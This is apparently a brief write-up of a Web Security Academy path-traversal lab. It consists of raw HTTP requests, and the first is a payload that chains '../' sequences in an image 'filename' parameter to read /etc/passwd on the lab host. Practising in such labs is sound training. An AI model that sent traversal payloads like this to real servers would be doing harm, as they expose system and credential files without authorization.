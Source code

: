 
##### Payload Request
GET /image?filename=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd HTTP/2
Host: 0a8b005a032817bf81a55cce00980051.web-security-academy.net
Cookie: session=GI057ROTlAymFtQNDnt3HdcPhILXlSUa
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


##### Base request
GET /image?filename=30.jpg HTTP/2
Host: 0a8b005a032817bf81a55cce00980051.web-security-academy.net
Cookie: session=GI057ROTlAymFtQNDnt3HdcPhILXlSUa
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

